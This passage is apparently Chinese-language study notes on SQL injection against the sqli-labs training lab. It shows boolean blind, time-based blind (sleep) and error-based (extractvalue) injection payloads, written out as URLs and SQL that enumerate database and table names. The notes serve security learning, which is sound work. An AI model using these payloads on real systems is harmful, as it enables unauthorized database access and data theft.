 ### 2.1 获取数据库名称

1. 判断数据库名长度为8：

   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (length(database()))=8 --+
   ```

2. 逐个字符猜测数据库名，最后得出数据库名为 `security`。

### 2.2 获取数据库表名

1. 获取当前数据库中的表数量：

   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
   ```

2. 获取第一个表名：

   ```sql
   select table_name from information_schema.tables where table_schema=database() limit 1,1;
   
   substr(表名,1,1)> < = ascii
   ```

   使用`limit`和`substr`逐字猜解表名。

3. 获取数据

   

## 3. 时间盲注

### 3.1 基于时间的盲注示例

- 如果数据库名长度大于0，则延迟10秒：

  ```sql
  if(length(database())>0, sleep(10), 1)
  ```

- 逐字猜测表名并延迟响应时间：

  ```sql
  if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1))=100, sleep(10), 1)
  ```

### 报错注入

- 获取数据库名(security)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```
